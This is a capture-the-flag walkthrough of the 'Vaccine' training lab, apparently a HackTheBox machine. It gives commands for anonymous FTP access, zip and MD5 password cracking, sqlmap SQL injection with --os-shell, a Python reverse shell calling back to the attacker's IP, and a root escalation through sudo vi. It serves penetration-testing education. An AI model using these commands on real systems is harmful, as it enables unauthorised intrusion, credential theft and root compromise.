

# Vaccine

### Difficulty:

Very Easy

### Tags:

PHP, Web, Custom Applications, Session Handling, Apache, Reconnaissance, Web Site Structure Discovery, Cookie Manipulation, SUID Exploitation, Authentication bypass, Clear Text Credentials, Arbitrary File Upload, Insecure Direct Object Reference (IDOR), Path Hijacking.

### Tools used:

- Nmap - network scan
- FTP - it’s a network protocol but also a tool to access a ftp server.
- unzip - unzip compressed files
- zip2john - retrieve the hash from zip files
- john -  password cracking
- hash-identifier - identify the different types of hashes and passwords
- sqlmap - automates detection and penetration of injection vulnerabilities in SQL.
- ssh - is a protocol primarily used for remote login to a machine.
- vi - text editor

Always refer to the help section if you are unsure of how to use the tool or are unfamiliar with how a flag works.

## Tasks

- [ ]  TASK 1 - Besides SSH and HTTP, what other service is hosted on this box?

By utilizing the command `nmap -sV <ip>`, we can identify services in use. It's crucial to observe that the target hosts both SSH and HTTP services. Make a note of this information, as it will prove valuable in our subsequent steps.

**Answer:** ftp

- [ ]  TASK 2 - This service can be configured to allow login with any password for specific username. What is that username?

To access the FTP server, use the command `ftp <ip>`. It's crucial to note that the FTP service often comes with a default configuration that allows login without a password. This default setting is considered a misconfiguration, as failing to change it may result in unwanted visitors. Today, the unexpected visitor happens to be me.

To take advantage of this misconfiguration we just need to use `anonymous` as username and an empty password.

We got access!

**Answer:** anonymous

- [ ]  TASK 3 - What is the name of the file downloaded over this service?

Now we just need to find the file we’re looking for. I just used `ls`, it was very easy. So, we just need to download it running `get <file.extension>`.

**Answer:** backup.zip

- [ ]  TASK 4 - What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

If you don’t know this one, just google it and learn how to use we’ll need this one!

From the task, it seems evident that the file is password-protected, but we'll attempt to unzip it nonetheless. Execute the command `unzip <file.extension>`, and you'll observe that it is indeed protected. Since we lack the password, we'll need to use `john-the-ripper`. Fortunately, we already have information about the files within the zip, and it appears that `index.php` is likely the one we're seeking.

We will use `zip2john` to create a hash file for finding the password. To do this, execute the following command: `zip2john backup.zip > <file_name>`. This command redirects the output of `zip2john` to the specified file. If the file does not exist, it will be created. I opted to use `sudo` as I've had negative experiences with `john` — perhaps it's just me, but I find it to be too unstable.

**Answer:** zip2john

- [ ]  TASK 5 - What is the password for the admin user on the website?

After saving the hash, we can proceed to crack it using the 'rockyou' wordlist, a well-known list for generic password cracking. To do so, execute the command: `john --wordlist=/usr/share/wordlists/rockyou.txt <file_name>`. Once completed, the password will be displayed. Now, all that's left is to unzip again, this time using the obtained password.

Now that it's unzipped, let's explore the contents of those files. I began by examining the `.php` file, as the `.css` file is primarily for styling and is irrelevant to our current objective. Within the `.php` file, I discovered a `session_start()` function containing hardcoded username and password hashes that appear to be generated using something resembling MD5. It's crucial to emphasize the importance of avoiding the use of MD5 for hashing anything sensitive, as it is generally susceptible to easy cracking. Fortunately for our investigation, it is generally susceptible to easy cracking.

Let's make a note of this information and continue our investigation. Initially, we'll verify whether the password was indeed hashed using MD5.

Confirmed, it is MD5. To crack the hash, we have various methods at our disposal. For academic purposes, I'll introduce a new one, but feel free to use `john` or any other tool you're familiar with. In this instance, we'll use [CrackStation](https://crackstation.net/), which is straightforward to use, so I won't provide a detailed demonstration here. After successfully retrieving the password, we can proceed to log in to the website. This aligns with our earlier observation of an HTTP service in the initial task; now is the opportune moment to utilize it.

The website features a login screen. All that remains is to input our username and password, and voilà, we're in. This is the landing page post-login, and there isn't much to explore. We can generally assume that anything here is vulnerable — this is a good practice until we've obtained our target, whether it's the flag in these labs or your specific goal in real-life scenarios. Keep in mind that vulnerabilities can be present anywhere.

**Answer: 👁️👁️**

- [ ]  TASK 6 - What option can be passed to sqlmap to try to get command execution via the sql injection?

As there isn't much to do on this page, I began experimenting by entering various inputs into the search field. I observed a potential vulnerability, specifically the opportunity to exploit SQL injection in the search parameter. This is an assumption based on the understanding that this is a simple lab with tasks guiding our progression through the challenge.

I conducted a test using a simple payload: `vaccine.htb/dashboard.php?search='`. Confirming my suspicions, the system exhibited vulnerability to SQLi, as it returned a database error.

**Note**: If you want to know how to interact with the IP lab using `<lab_name>.htb` to simplify your tasks. Take a look at [my first write-up](https://github.com/Raian-Moretti/write-ups/blob/main/[HTB]Oopsie/README.md#pro-tip).

Given the identified vulnerability to SQL injection in this service, we can leverage a tool to obtain shell access. In this case, we'll use `sqlmap`. Execute the following command: `sqlmap -u 'http://vaccine.htb/dashboard.php?search=' --level=5 --risk=3 --batch --cookie="PHPSESSID=hrk0vcs9uoo2k9m9s7itkvj7h1" --os-shell`. The `-u` flag designates the URL, and -`-cookie="<cookie>"` is the section where you should input your session cookie. The `--os-shell` flag indicates the script that will be executed, in this case, to obtain a shell. I'll leave the task of finding your session cookie as homework for you.

**Answer:** --os-shell

- [ ]  TASK 7 - What program can the postgres user run as root using sudo?

### BONUS SECTION

**Note**: Those steps are only for learning purpose, you can just jump to the end of bonus section if you don’t want to see the steps to get a better terminal or a more stable one.

It worked, and we now have a shell. However, to meet our requirements, we aim to upgrade our shell, as the current one is within sqlmap and doesn't serve our full needs. Let's attempt to establish a Python connection with Netcat. Execute the following command: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<your_ip>",<port_you_chose>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'` on the server. Beforehand, run `nc -lvnp <port_you_chose>` on your machine to open the connection.

Now that we have gained access to the server with our own terminal, we can close the `sqlmap` connection and start exploring for useful information. I discovered the `.php` file of the page, and inside it, I found credentials for PostgreSQL. This led me to consider trying these credentials for SSH access. SSH is a more stable option, and if we secure access through SSH, we can take a moment to relax. In a real-world environment, SSH is preferred for its reliability, as connections via sqlmap, meterpreter, netcat, or similar tools are more susceptible to instability.

I opened a new terminal and used `ssh postgres@vaccine.htb -p 22`. It worked, and now we can proceed to the next task, which involves finding the program running with root permissions.

### END OF BONUS SECTION

By this point, we can already get the user flag.

So, to find this program we can use `sudo -l` and see the output.

We discovered that the user ‘postgres’ has the capability to edit the file `/etc/postgresql/11/main/pg_hba.conf` using the text editor 'vi' with root privileges. To access the file, you can use the command: `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`. 

Once the file is open, simply execute `:!/bin/sh` inside ‘vi’ terminal, and there you have it – a rooted shell.

**Answer:** vi

- [ ]  SUBMIT USER FLAG

- [ ]  SUBMIT ROOT FLAG

